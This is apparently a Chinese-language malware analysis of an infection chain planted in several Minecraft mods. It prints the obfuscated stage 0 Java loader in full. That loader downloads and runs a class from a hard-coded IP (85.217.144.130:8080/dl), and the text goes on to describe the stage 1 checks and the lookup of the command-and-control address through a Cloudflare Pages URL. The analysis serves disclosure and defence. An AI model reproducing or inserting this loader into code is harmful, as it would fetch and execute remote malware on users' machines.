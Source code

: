 ```java
static void _1685f49242dd46ef9c553d8af1a4e0bb() {
  Class.forName(new String(new byte[] {
      // "Utility"
    85, 116, 105, 108, 105, 116, 121
  }), true, (ClassLoader) Class.forName(new String(new byte[] {
      // "java.net.URLClassLoader"
    106, 97, 118, 97, 46, 110, 101, 116, 46, 85, 82, 76, 67, 108, 97, 115, 115, 76, 111, 97, 100, 101, 114
  })).getConstructor(URL[].class).newInstance(new URL[] {
    new URL(new String(new byte[] {
        // "http"
      104, 116, 116, 112
    }), new String(new byte[] {
        // "85.217.144.130"
      56, 53, 46, 50, 49, 55, 46, 49, 52, 52, 46, 49, 51, 48
    }), 8080, new String(new byte[] {
        // "/dl"
        47, 100, 108
        }))
  })).getMethod(new String(new byte[] {
      // "run"
    114, 117, 110
  }), String.class).invoke((Object) null, "-114.-18.38.108.-100");
}
```

这段代码：

1. 创建 `URLClassLoader` 对象，该 `URLClassLoader` 会从 `http://[85.217.144.130:8080]/dl`（[shodan](https://www.shodan.io/host/85.217.144.130)）下载并加载类。
2. 透过 1. 中所述 `ClassLoader` 加载名为 `Utility` 的类。此过程会联网下载文件。
3. 调用 `Utility` 类的 `run` 方法，传入一字符串作为实参。每个受感染模组在此处传入的实参均不相同（！），例如：
    * Skyblock Core：`-74.-10.78.-106.12`
    * Dungeonz：`-114.-18.38.108.-100`
    * HavenElytra：`-114.-18.38.108.-100`
    * Vault Integrations：`-114.-18.38.108.-100`

该参数会在阶段 1 中转化为字节流，并写入一名为 `.ref` 的文件中。表面上看，这是作者追踪感染路径的方式。

该阶段所创建的 `ClassLoader` 对象硬编码了目标 URL，并未使用阶段 1 中使用的 CloudFlare URL。在该 IP 地址下线后，**我们已知的**阶段 0 感染代码将无法正常工作。

## 阶段 1（`dl.jar`）

SHA-1：`dc43c4685c3f47808ac207d1667cc1eb915b2d82`

[该文件的反编译结果可在此查阅](../decomp)。

`Utility.run` 在开始执行前，首先会检查系统属性 `neko.run` 是否已有对应的值（译注：`System.getProperty(String)` 返回值非空）。若已设定有对应的值，程序会**立即停止运行**。若没有，则会将其值设定为空字符串，并继续执行。表面上看，这是恶意软件防止在某些情况下执行多次的手段，例如在存在多个受感染模组的情况下。**此行为不能用作可靠的「紧急停止开关」（Kill Switch），因为阶段 1 代码需联网获取，因此随时可能发生变化。**

然后，该程序试图访问 `85.217.144.130` 以及一个 CloudFlare 域名（`https://files-8ie.pages.dev/ip`）。我们已就此向 CloudFlare 提交滥用举报。这个 CloudFlare Pages 域名是用来获取指挥控制（Command & Control，下简称 C&C）服务器 IP 地址的。若前述第一个 IP 地址失去响应，这个 URL 将会返回一串 IPv4 地址的二进制表达。
